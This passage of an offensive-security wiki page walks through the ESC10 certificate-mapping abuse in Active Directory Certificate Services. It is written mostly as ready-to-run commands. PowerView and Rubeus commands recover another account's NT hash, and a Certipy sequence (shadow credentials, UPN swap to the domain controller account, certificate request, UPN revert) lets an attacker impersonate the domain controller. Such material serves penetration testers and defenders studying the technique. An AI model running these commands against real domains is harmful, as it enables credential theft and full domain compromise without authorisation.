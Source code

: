 The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```batch
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

* Case 2 :&#x20;
  * `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
  * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
  * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)

{% hint style="warning" %}
At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.&#x20;

In this scenario, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@domain.local**.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **DC$@domain.local**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "DC\$@$DOMAIN"
```

A certificate permitting client authentication can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```
